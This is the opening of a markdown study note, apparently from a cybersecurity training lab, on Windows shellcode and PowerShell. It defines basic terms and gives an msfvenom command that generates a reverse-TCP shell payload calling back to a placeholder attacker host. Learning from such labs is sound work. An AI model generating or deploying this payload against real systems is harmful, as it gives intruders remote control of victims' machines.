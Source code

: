 ```yaml
---
title: Day 8 - Shellcodes of the world, unite!
draft: false
tags:
  - cybersecurity
  - shellcodes
---
```



### Essential Terminologies

- **Shellcode**: piece of code usually used by malicious actors during exploits to inject command. Typically written in assembly
- **Powershell**: scripting language and command-line shell built into Windows
- **Windows Defender**: built-in security feature
- **Windows API**: this allows programs to interact with the underlying operating system.
- **Accessing Windows API though PowerShell Reflection**: advanced technique that enables dynamic interaction with the Windows API
- **Reverse shell**: a type of connection in wich the target initiates a connection back to your attacking machine


### Generating Shellcode
We use `msfvenom`

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKBOX_IP LPORT=1111 -f powershell
```